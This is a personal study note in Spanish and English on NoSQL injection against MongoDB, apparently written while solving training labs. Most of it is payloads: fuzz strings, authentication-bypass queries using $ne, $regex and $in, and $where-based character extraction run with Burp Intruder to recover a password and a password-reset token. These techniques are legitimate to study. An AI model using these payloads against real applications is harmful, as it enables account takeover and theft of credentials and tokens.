 La inyección de NoSQL es una vulnerabilidad cuando un atacante es capaz de interferir con las consultas que una aplicación hace a una base de datos NoSQL.

- `$where` Coincide con documentos que satisfacen una expresión de JavaScript.
- `$ne` Coincide con todos los valores que no son iguales a un valor especificado.
- `$in` Coincide con todos los valores especificados en un array.
- `$regex` Selecciona los documentos en los que los valores coinciden con una expresión regular especificada.

<hr>


Para comprobar si la entrada puede ser vulnerable, envíe una cadena de paquete en el valor de la category parámetro. Una cuerda de ejemplo para MongoDB es:

```
'"`{ 
;$Foo} 
$Foo \xYZ

En el endpoint codeado a URL:
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

Identify payloads:

```
'+'
' && 0 && 'x
' && 1 && 'x
'||1||'
?category=word'
?category='||1||'
?category=fizzy'%00
```

Bypass Basic: 

```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

Payloads to Bypass Auth: 

* "**ne**" is not equal.

```json
Hacer coincidir cualquiera de esos usernames y cualquier password que no sea igual a vacio ->
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

in DATA 
username[$ne]=toto&password[$ne]=toto 
login[$regex]=a.*&pass[$ne]=lol 
login[$gt]=admin&login[$lt]=test&pass[$ne]=1 
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

in JSON 
{"username": {"$ne": null}, "password": {"$ne": null}} 
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}} 
{"username": {"$gt": undefined}, "password": {"$gt": undefined}} 
{"username": {"$gt":""}, "password": {"$gt":""}}

```

Payload Bypass Auth - `Regex` : 

![[Pasted image 20250216144730.png]]

```json
{"username": {"$regex":"admin*"}, "password": {"$ne":null}} 
{"username": {"$regex":"admin*"}, "password": {"$ne": "bicitetas23"}}
```

Extact data process:

```json
wiener' && '1'=='1 -> you get info about wiener
wiener' && '1'=='2 -> could not find user

this means you control the conditional
administrator' && this.password.length < 30 || 'a'=='b
administrator' && this.password.length < 9 || 'a'=='b
Notice that when you submit the value `9`, you retrieve the account details for the `administrator` user, but when you submit the value `8`, you receive an error message because the condition is false

Send to intruder payload:
administrator' && this.password[§0§]=='§a§
cluster bomb 0-7 numbers and a-z wordlist

administrator:ynmaydqb
```

Extract Unknown info: 

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
Invalid username or password

{"username":"carlos","password":{"$ne":"invalid"}, "$where": "1"}
Account locked

[(this)[1]-este numero lo verifico yo en la request a ver hasta que numero se acepta] y devuelve 200ok ¿cómo? así: 
* {"username":"carlos","password":{"$ne":"invalid" },"$where": "Object.keys(this)[0].match('^.{0}a.*')"}
* Luego tirar burp intruder: 
	* In the intruder clusterbomb 1:0-50 + 2:a-z,A-Z,0-9
	* The first identifies the character position number, and the second identifies the character itself.

"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"
grep in the response for 'Account locked: please reset your password'
-> Username
"$where":"Object.keys(this)[4].match('^.{§§}§§.*')"
-> Password reset token = unlockToken

GET /forgot-password?foo=invalid
same
GET /forgot-password?unlockToken=jsjs
Invalid token

Intruder again
"$where":"this.changePwd.match('^.{§§}§§.*')"
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "this.unlockToken.match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":"invalid" },"$where": "this.unlockToken.match('^.{0}a.*')"} //es lo mismo que el de arriba
-> f3acfc29933ca9af //token obtenido
Go to /forgot-password?unlockToken=f3acfc29933ca9af
and change carlos pass

```

Eso es todo por NO-SQL injection care mondá, jueperra vida. 